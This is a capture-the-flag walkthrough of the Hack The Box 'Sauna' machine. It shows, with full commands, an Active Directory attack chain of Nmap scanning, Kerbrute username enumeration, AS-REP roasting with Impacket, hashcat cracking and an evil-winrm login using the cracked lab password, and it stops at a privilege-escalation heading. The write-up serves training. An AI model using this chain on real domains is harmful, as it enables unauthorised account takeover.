

# 🧖‍♂️ Sauna

## Scanning

Let's start with the usual Nmap scan:

```bash
nmap -T4 -A 10.10.10.175

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-04 20:24 -03
Nmap scan report for 10.10.10.175
Host is up (0.15s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Egotistical Bank :: Home
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-05 06:24:28Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h00m01s
| smb2-time: 
|   date: 2024-03-05T06:24:38
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.50 seconds
```


## Enumeration

Let's try enumerating SMB first. For this. we'll use "_smbclient_" with anonymous credentials and no password:

```bash
smbclient -L \\\\10.10.10.175\\ -N
```

<figure><figcaption><p>No File Shares listed for anonymous login</p></figcaption></figure>

As we can see, there are no File Shares listed for anonymous login, so we should take another route.

On Port 80, we can see a website that displays, on the "About Us" page, the names of the people in the "Egotistical Bank" Team.


## Exploitation

We can grab these usernames and create a list with all possible usernames for everyone in the team and try to see if any of these usernames are valid. To do this, we'll use a tool called "[_Username Anarchy_](https://github.com/urbanadventurer/username-anarchy)" and create a list of usernames.

First, let's create a list with all the names we found on the website.

```bash
subl employees.txt
```

<figure><figcaption><p>Egotistical Bank Employee List</p></figcaption></figure>

Now, let's use "_Username-Anarchy_" to create a list of probable usernames in the Domain:

```bash
./username-anarchy -i <path/to/employee list> > ~/htb/sauna/usernames.txt
```

<figure><figcaption><p>Username List</p></figcaption></figure>

Once we have a username list, we need to make sure which of these usernames are valid usernames in the Domain. To validate usernames on a domain, we can use a tool called "[_Kerbrute_](https://github.com/ropnop/kerbrute)":

```bash
# After downloading one of the releases designed for your specific architecture:
./kerbrute userenum -d egotistical-bank.local --dc 10.10.10.175 ~/htb/sauna/usernames.txt  
```

<figure><figcaption><p>Valid username from Kerbrute</p></figcaption></figure>

Once we get a valid username, there are a few things we can try, one of them being an ASREPRoasting attack, which will [automatically find accounts that do not require pre-authentication and extract their AS-REP hashes for offline cracking](https://blog.netwrix.com/2022/11/03/cracking\_ad\_password\_with\_as\_rep\_roasting/).

To perform this attack, we'll need to use one of Impacket's tools, known as "_GetNPUSers.py"_:

```bash
GetNPUsers.py egotistical-bank.local/fsmith -format hashcat -dc-ip 10.10.10.175
```

<figure><figcaption><p>fsmith's AS-REP hash</p></figcaption></figure>

Now we can take this hash and try to crack it with "_hashcat_":

```bash
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```

<figure><figcaption><p>fsmith's password</p></figcaption></figure>

### User Flag

Now that we have a username and a password, there are a few things we can do. Generally speaking, we don't really need to get a shell on the system to compromise the Domain Controller, although, it can sometimes be useful.&#x20;

In this case, we should get a shell to be able to grab the User's flag:

```bash
evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
```

<figure><figcaption><p>User flag</p></figcaption></figure>

## Post Exploitation / Privilege Escalation

### Enumeration


